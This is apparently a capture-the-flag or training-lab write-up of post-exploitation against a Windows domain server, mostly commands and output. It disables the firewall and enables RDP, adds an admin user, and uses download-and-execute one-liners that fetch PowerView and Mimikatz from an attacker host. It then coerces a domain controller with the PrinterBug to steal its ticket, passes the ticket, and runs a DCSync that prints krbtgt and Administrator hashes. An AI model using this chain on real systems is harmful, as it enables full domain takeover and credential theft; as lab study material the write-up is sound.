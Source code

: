 # Post Exploit - DB-Server

- [Post Exploit - DB-Server](#post-exploit---db-server)
  - [Persistence - DB-Server (10.1.3.2)](#persistence---db-server-10132)

---

## Persistence - DB-Server (10.1.3.2)

First enable RDP on the host since we have the SYSTEM privilege.

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

<br/>

Also turn off the firewall:

```
netsh advfirewall set allprofiles state off
```

![picture 40](images/0c9d75ba391de6644a97261d7ff7a8f69e8891ea9d8dd999e2fb9809d0b94986.png)  

<br/>

Add the user `operations\iisadmin` in the local admins.

```
net localgroup administrators operations\iisadmin /add
```

![picture 43](images/eb63f443f8ec983ee0cd7121063b4df5ce53179775ac5d2836b285434ce36c8f.png)  


<br/>

Then RDP to the host via proxychains:

```
proxychains xfreerdp /size:85% /u:iisadmin /p:'Head!!S%$#@!' /v:10.1.3.2
```

![picture 42](images/b2e2fd283b73347c6bcb5138fb723d81dbd03145c71b3600bfdbd3f7e9781788.png)  


<br/>

Launch `powershell.exe` with Admin Privilege and download `PowerView_dev.ps1`:

```
cd C:\Users\Public\ && iex (New-Object Net.WebClient).DownloadString("http://192.168.100.11/PowerView_dev.ps1")
```

<br/>

Enumerate Computers with Unconstrained Delegation: 

```
Get-NetComputer -Unconstrained
```

<br/>

![picture 44](images/844c1efeae49a7d32143c2f21f37f750ea9ee6ad1e46be3c8fbcc3ecb2109ec7.png)  

* The current computer where we have local admin privilege has unconstrained delegation

<br/>

Considering that it is a Server 2016, there is a chance that the `PrinterBug` would work, forcing DC to leave a TGT on the current machine.

<br/>

Download the essential tools for the attack `Rubeus.exe` and `MS-RPRN.exe`:

```
wget http://192.168.100.11/MS-RPRN.exe -OutFile .\MS-RPRN.exe
wget http://192.168.100.11/Rubeus.exe -OutFile .\Rubeus.exe
```

<br/>

With 2 shells opening run the following respectively:

```
# 1st shell

.\Rubeus.exe monitor /interval:5
```

```
# 2nd shell

.\MS-RPRN.exe \\ops-childdc.operations.atomic.site \\DB-Server.operations.atomic.site
```

![picture 45](images/05dd678483d425be99c8f57351da0a4733e3d11f3159efb7c507d6f36865e1af.png)  

* As shown, TGT from CHILD-DC's machine account is obtained.

<br/>

Copy and store the base64-encoded tgt into a variable `$tgt`:

```
$tgt = "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"
```

![picture 46](images/917b473bdbf3b55522bc05b19f7523cbb29dd01cbc31e57dad06fc5eac83bf23.png)  

<br/>

Then remove the new line characters using:

```
$tgt_new = $tgt -replace("\n", "")
```

![picture 47](images/1319d84ac0cd130474446e854ce46a52486ae6cf877cbb88e026ad54baf7b5e5.png)  

<br/>

Use Pass-the-Ticket technique to import the TGT:
```
.\Rebeus.exe ptt /ticket:$tgt_new
```

![picture 48](images/8fcf471f0a7556a1298319e2d27b502b93af707b2469c19c3ee5deaf1abbd148.png)  

<br/>

Then, use Mimikatz to perform a DCSync to dump the credential of `operations\krbtgt`:

```
iex (New-Object Net.WebClient).DownloadString("http://192.168.100.11/Invoke-Mimikatz.ps1")
```

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:operations/krbtgt"'
```

```
SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/29/2020 4:58:57 PM
Object Security ID   : S-1-5-21-3757735274-1965336150-1982876978-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 8e2b8effbf6735b8fb5be206cb3dfead
    ntlm- 0: 8e2b8effbf6735b8fb5be206cb3dfead
    lm  - 0: 284b32bae998ce25de184583e0d9e68a

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 623477e7556db979c1763d799bb55ee0

* Primary:Kerberos-Newer-Keys *
    Default Salt : OPERATIONS.ATOMIC.SITEkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e3086e040ac4199bfac3f3c74a8a4445283fe6e91df566a02e6568340eb0ae2d
      aes128_hmac       (4096) : 04b564e3ad170addb86374e318463ec3
      des_cbc_md5       (4096) : 04586b26454cd9c2

* Primary:Kerberos *
    Default Salt : OPERATIONS.ATOMIC.SITEkrbtgt
    Credentials
      des_cbc_md5       : 04586b26454cd9c2
```
* Krbtgt NTLM: `8e2b8effbf6735b8fb5be206cb3dfead`

<br/>

Do the same for the Domain Admin:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:operations\administrator"'
```

```
SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 1/1/1601 5:30:00 AM
Password last change : 6/20/2020 3:09:56 PM
Object Security ID   : S-1-5-21-3757735274-1965336150-1982876978-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 5984a430e639891136c94918e6846f24
    ntlm- 0: 5984a430e639891136c94918e6846f24
    ntlm- 1: c87d4d8fc868407d61baabf4c1b1dbbc
    ntlm- 2: 5984a430e639891136c94918e6846f24
    lm  - 0: 0c675d65c3d77e0636dcb65deea38511
    lm  - 1: 5e5af269bf85aaeb7daa086023590c85

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : e8ec0c8fa34cf7203edba42e6493edc6
```

* `Administrator` NTLM: `5984a430e639891136c94918e6846f24`


